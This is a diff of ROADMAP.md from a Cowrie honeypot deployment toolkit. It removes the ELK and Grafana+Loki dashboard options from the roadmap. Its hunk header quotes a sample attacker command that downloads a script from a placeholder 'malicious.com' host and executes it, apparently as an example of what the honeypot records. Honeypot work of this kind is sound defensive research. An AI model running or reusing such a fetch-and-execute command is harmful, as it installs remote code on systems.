

Before and after one commit to reuteras/cowrie-deploy-toolkit, a Markdown page: ROADMAP.md, the part around one of its changes. Rendered like a GitHub page; blank space fills up the shorter version.

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -101,19 +101,6 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 
 ## Phase 2: Dashboard & Visualization
 
-### Option 1: ELK Stack (Elasticsearch + Logstash + Kibana)
-- Heavy but powerful, good for large-scale deployments
-- Native Cowrie support via Logstash output plugin
-- Pre-built Kibana dashboards available
-- Resource requirements: 4GB+ RAM
-
-### Option 2: Grafana + Loki (Recommended)
-- Lightweight alternative to ELK
-- Loki for log aggregation (label-based, efficient)
-- Grafana for visualization
-- Docker Compose deployment
-- Resource requirements: 1-2GB RAM
-
 ### Option 3: Custom Dashboard
 - [ ] Simple Flask/FastAPI web app
 - [ ] Read from JSON logs directly
```
Also changed, not shown: other parts of ROADMAP.md (+11 -35 lines).
